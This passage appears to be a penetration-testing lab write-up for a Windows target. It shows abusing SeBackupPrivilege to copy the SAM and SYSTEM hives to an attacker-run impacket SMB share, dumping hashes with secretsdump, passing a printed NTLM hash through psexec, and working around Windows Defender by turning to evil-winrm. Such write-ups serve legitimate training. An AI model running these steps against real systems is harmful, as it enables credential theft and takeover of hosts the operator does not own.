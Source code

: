 ![image.png](image%2048.png)

Open Powershell with `Run as Administrator`. Checking privileges I see:

![image.png](image%2049.png)

I have `SeBackupPrivilege` I am gonna copy `sam` and `system` hives and obtain local admin hash and try to login with that if it is not disabled.

```bash
sudo impacket-smbserver share -smb2support .
```

![image.png](image%2050.png)

![image.png](image%2051.png)

Copy and Paste them in `/tmp` share.

Dump hashes using `secretsdump.py`:

```bash
secretsdump.py -sam SAM.SAV -system SYSTEM.SAV LOCAL
```

![image.png](image%2052.png)

> Some environments disable Local Admin account login and Local Admin hash and Domain Admin account hash are different, but some allow and there in most cases Local Admin hash and Domain Admin hash are same.
{ .prompt-info }

```bash
psexec.py Administrator@$IP -hashes :d752482897d54e239376fddb2a2109e4

OR

psexec.py hokkaido-aerospace.com/Administrator@$IP -hashes :d752482897d54e239376fddb2a2109e4
```

![image.png](image%2053.png)

It hangs and I see Windows Security is enabled:

![image.png](image%2054.png)

That’s because this method creates a new file on the target and it is detected by antivirus naturally. We can use more innocent way `evil-winrm`:

![image.png](image%2055.png)

or we can disable Windows Security from RDP access.

![image.png](image%2056.png)

It turns out I cannot turn it off, as soon as I do it, it gets turned on. Use then `evil-winrm`.
